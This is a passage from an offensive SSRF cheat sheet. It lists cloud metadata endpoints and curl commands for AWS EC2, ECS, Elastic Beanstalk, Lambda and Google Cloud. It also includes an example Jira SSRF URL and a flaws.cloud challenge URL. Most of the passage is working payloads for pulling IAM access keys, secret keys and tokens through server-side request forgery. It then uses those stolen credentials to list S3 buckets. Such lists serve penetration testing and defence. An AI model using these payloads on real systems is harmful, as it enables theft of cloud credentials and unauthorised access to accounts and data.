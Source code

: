 E.g: Jira SSRF leading to AWS info disclosure - `https://help.redacted.com/plugins/servlet/oauth/users/icon-uri?consumerUri=http://169.254.169.254/metadata/v1/maintenance`

E.g2: Flaws challenge - `http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws/`


### SSRF URL for AWS ECS

If you have an SSRF with file system access on an ECS instance, try extracting `/proc/self/environ` to get UUID.

```powershell
curl http://169.254.170.2/v2/credentials/<UUID>
```

This way you'll extract IAM keys of the attached role

### SSRF URL for AWS Elastic Beanstalk

We retrieve the `accountId` and `region` from the API.

```powershell
http://169.254.169.254/latest/dynamic/instance-identity/document
http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanorastalk-ec2-role
```

We then retrieve the `AccessKeyId`, `SecretAccessKey`, and `Token` from the API.

```powershell
http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanorastalk-ec2-role
```

Then we use the credentials with `aws s3 ls s3://elasticbeanstalk-us-east-2-[ACCOUNT_ID]/`.


### SSRF URL for AWS Lambda

AWS Lambda provides an HTTP API for custom runtimes to receive invocation events from Lambda and send response data back within the Lambda execution environment.

```powershell
http://localhost:9001/2018-06-01/runtime/invocation/next
$ curl "http://${AWS_LAMBDA_RUNTIME_API}/2018-06-01/runtime/invocation/next"
```

Docs: https://docs.aws.amazon.com/lambda/latest/dg/runtimes-api.html#runtimes-api-next

### SSRF URL for Google Cloud

:warning: Google is shutting down support for usage of the **v1 metadata service** on January 15.

Requires the header "Metadata-Flavor: Google" or "X-Google-Metadata-Request: True"

```powershell
http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id
```
